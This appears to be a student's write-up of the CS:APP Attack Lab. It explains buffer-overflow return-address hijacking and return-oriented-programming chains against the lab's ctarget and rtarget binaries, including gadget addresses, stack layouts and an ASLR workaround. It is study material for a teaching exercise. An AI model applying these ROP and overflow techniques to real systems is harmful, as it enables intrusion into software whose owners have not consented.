

# ./ctarget 

ret addr hack in 0x00000000004017AF

## Phase 1

ret to `touch1`.

## Phase 2

ROP Gadget, use `pop %rdi; ret;` to set `%rdi`,
then ret to `touch2`.



## Phase 3

need to let string of `*%rdi` equal to cookie (`sprintf()` transdered it to ASCII) .  
construct ASCII string in stack, and let %rdi point to it (use ROPGadget which is used in Phase 2).  

`hexmatch` in `touch3` will compare string which is `%rdi` pointed to with the **random addressed** ASCII string of cookie in `touch3` stack.  


```
hacked stack:  
0                7  
+----------------+  
| ASCII STR      |    
+----------------+
| touch3 addr    |  
+----------------+  
| HACKED %rdi    |
| point to ASCII |
+----------------+  
| ROPGadget addr |
+----------------+  
|                |
.                .
.  trash bytes   .
.                .
|                |
+----------------+ <- %rsp
```


# ./rtarget

## Phase 4

same to Phase1.
but you will get a SIGSEGV in `ld.so` cuz,  

```asm
libc.so.6:00007FFFF7E19F9A movaps  xmmword ptr [rbp-40h], xmm0
```

you have to align `%rbp` as 16 bytes to use `xmm` registers.  

...

noticed that `%rbp` is changed by,

```asm
libc.so.6:00007FFFF7EBD630 mov     rbp, rsp
```

then you have to align `%rsp` as 16 bytes before you jump to `touch1` .

there is a simple way, just avoid processing `sub rsp, 8` in `touch1`. it might corrupt the stack but is enough to pass Phase 4.  

## Phase 5

same to Phase 4, use ROP Gadget which is used in Phase 2,  
but avoid processing `sub rsp, 8` in `touch2` .

## Phase 6

there is no `sub` but `push` in `touch3`.  

use `ret` to adjust `%rsp` by `+8` to achieve 16-byte alignment.

> noticed that `rtarget` enabled Stack ASLR, preventing the use of absolute vaddr as in the Phase 3 solution.

still use gadgets,

> it's kinda hard to think how to contruct gadgets.  

there is a **KEY Gadget** which is mentioned in `farm.c`,

```asm
.text:00000000004019D6
.text:00000000004019D6             ; =============== S U B R O U T I N E =======================================
.text:00000000004019D6
.text:00000000004019D6
.text:00000000004019D6                             public add_xy
.text:00000000004019D6             add_xy          proc near
.text:00000000004019D6             ; __unwind {
.text:00000000004019D6 48 8D 04 37                 lea     rax, [rdi+rsi]
.text:00000000004019DA C3                          retn
.text:00000000004019DA             ; } // starts at 4019D6
.text:00000000004019DA             add_xy          endp
.text:00000000004019DA
```

this is **VERY IMPORTANT** to construct a `leaq`,
to get a related vaddr locating the ASCII string in stack.

> sadly, there is no `movq %rsp, %rdi; ret;` gadget. you have to achieve this in another way.
> like, `movq %rsp, %rax; ret;` + `movq %rax, %rdi; ret` .

```

0                                7
+--------------------------------+
| ASCII String (hex):
|  (0x) 35 39 62 39 39 37 66 61
|
+--------------------------------+ <- hacked rdi + 0h56
| Addr ret to touch3:
|   0x00000000004018FA
|
+--------------------------------+
| Gadget in: 0x00000000004017BD
|   ret
|   (let %rsp = %rsp + 8)
+--------------------------------+
| Gadget in: 0x00000000004019A2
|   movq %rax, %rdi
|   ret
+--------------------------------+
| Gadget in: 0x00000000004019D6
|   leaq (%rdi, %rsi, 1), %rax
|   ret 
+--------------------------------+
| Data:
|   0h56 = 0x38
|   (let %rsi = 0h56)
+--------------------------------+
| Gadget in: 0x0000000000401383
|   pop %rsi
|   ret
+--------------------------------+
| Gadget in: 0x00000000004019A2
|   movq %rax, %rdi 
|   ret
+--------------------------------+ <- hacked rdi
| Gadget in: 0x0000000000401A06
|   movq %rsp, %rax
|   ret
+--------------------------------+
.                                .
.    40 bytes                    .
.                                .
+--------------------------------+ <- rsp


```

so, CHECKMATE.